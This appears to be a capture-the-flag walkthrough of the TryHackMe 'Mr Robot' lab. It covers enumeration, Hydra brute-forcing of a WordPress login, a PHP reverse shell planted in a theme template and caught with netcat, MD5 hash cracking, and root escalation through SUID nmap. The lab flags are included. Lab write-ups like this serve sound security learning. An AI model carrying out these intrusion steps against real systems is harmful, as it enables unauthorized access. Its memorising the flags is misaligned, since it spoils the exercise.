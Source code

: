 https://tryhackme.com/room/mrrobot

**Basic enumeration**

    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache
    443/tcp open   ssl/http Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03
    |_http-server-header: Apache

So it looks like we are working with a standard webserver so we should start to more enumerations

    gobuster dir -u http://10.10.237.76/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php

    nikto -h 10.10.237.76  
    
We find a robots.txt file so we should investigate that:

    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
    └─# cat key-1-of-3.txt 
    073403c8a58a1f80d943455fb30724b9

Lets also grab that .dic file

    wget http://10.10.237.76/fsocity.dic   

That is a big file! let us take a look at some of the entries

        └─# head fsocity.dic                                                                          
    true
    false
    wikia
    from
    the
    now
    Wikia
    extensions
    scss
    window
    
    └─# wc -l fsocity.dic 
    858160 fsocity.dic
    
    └─# sort -u fsocity.dic > sorted.dic

    └─# wc -l sorted.dic
    11451 sorted.dic

Whew that is much more reasonable to workwith, My bet is that this is a password/username list

**Initial Foothold**
    
Naviagate to the following url based on the gobuster scan
        http://10.10.237.76/wp-login
        
Pulling up burpsuite lets capture the request for a log in and feed that to hydra for some online brute forcing

        POST /wp-login.php HTTP/1.1

        Host: 10.10.237.76

        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

        Accept-Language: en-US,en;q=0.5

        Accept-Encoding: gzip, deflate

        Content-Type: application/x-www-form-urlencoded

        Content-Length: 103

        Origin: http://10.10.237.76

        Connection: close

        Referer: http://10.10.237.76/wp-login

        Cookie: s_cc=true; s_fid=30B417277AC07EA9-1832D8BCFA333922; s_nr=1661289741763; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check

        Upgrade-Insecure-Requests: 1



        log=user&pwd=passpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.76%2Fwp-admin%2F&testcookie=1

         
Alright we have a post form here, so we can now shape our hydra command

        hydra -L sorted.dic -p notarealpassword 10.10.237.76 http-post-form "/wp-login.php:log=user&pwd=passpass&wp-submit=Log&testcookie=1:Invalid"

-L is the list we will use for the username

-p is the single password to be used

http-post-form = the type of attack to perform

 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:Invalid" = Path of webiste, POST body information, fail conditions (txt)

Here we find a user name 'elliot' we can run hydra again with pretty much the same parameters and arguments, except this time we will change the -L to -l to indicate a single username to try and change -p to -P and define the same sorted list we used before

        hydra -l elliot -P sorted.dic 10.10.175.151 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:incorrect"

        [80][http-post-form] host: 10.10.175.151   login: elliot   password: ER28-0652

Now that we have both a username and password let us login and figure out what we are dealing with

We are working with wordpress verison 4.1.31 and we have access to edit the templates and themes for pages. From here we can upload the PenTestMonkey PHP script to a 404.php template page and then navigate to a nonexistant endpoint on the webserver to trigger the php script. Prior to triggering the script, we will start up our netcat listener on the port we defined in the pentestmonkey script

        nc -lnvp 1337
        
                connect to [10.9.2.110] from (UNKNOWN) [10.10.175.151] 37713
        Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
         14:25:35 up  1:16,  0 users,  load average: 0.00, 0.49, 2.53
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=1(daemon) gid=1(daemon) groups=1(daemon)
        sh: 0: can't access tty; job control turned off
        $ 


Once we navigate around a bit we find a user robot in the home directory with the second key that we cannot read with our current permissions, additionally there is a password.raw-md5 that we can read so lets grab that and bring it back to our attacker machine\

        daemon@linux:/home/robot$ cat password.raw-md5
        cat password.raw-md5
        robot:c3fcd3d76192e4007dfb496cca67e13b
        
 Passing that hash into john we receive the following output:

        ┌──(root💀kali)-[/home/kali/mrrobot]
        └─# john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5                          1 ⨯
        Using default input encoding: UTF-8
        Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
        Warning: no OpenMP support for this hash type, consider --fork=4
        Press 'q' or Ctrl-C to abort, almost any other key for status
        abcdefghijklmnopqrstuvwxyz (?)  


Lets change users and read that key file

        robot@linux:~$ cat key-2-of-3.txt
        cat key-2-of-3.txt
        822c73956184f694993bede3eb39f959

Now to see if we can escilate futher

        robot@linux:~$ find / -type f -perm -04000 2>/dev/null
        find / -type f -perm -04000 2>/dev/null
        /bin/ping
        /bin/umount
        /bin/mount
        /bin/ping6
        /bin/su
        /usr/bin/passwd
        /usr/bin/newgrp
        /usr/bin/chsh
        /usr/bin/chfn
        /usr/bin/gpasswd
        /usr/bin/sudo
        /usr/local/bin/nmap


we have SUID set for nmap which is vulnerable according to gtfo bins using the following commands

        sudo nmap --interactive
        nmap> !sh
        
Performing those commands gets us a root shell.

robot@linux:~$ nmap --interactive
nmap --interactive

        Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
        Welcome to Interactive Mode -- press h <enter> for help
        nmap> !sh
        !sh
        # whoami
        whoami
        root


        # cd /root; ls -la
        cd /root; ls -la
        total 32
        drwx------  3 root root 4096 Nov 13  2015 .
        drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
        -rw-------  1 root root 4058 Nov 14  2015 .bash_history
        -rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
        drwx------  2 root root 4096 Nov 13  2015 .cache
        -rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
        -r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
        -rw-r--r--  1 root root  140 Feb 20  2014 .profile
        -rw-------  1 root root 1024 Sep 16  2015 .rnd
        # cat key-3-of-3.txt
        cat key-3-of-3.txt
        04787ddef27c3dee1ee161b21670b4e4

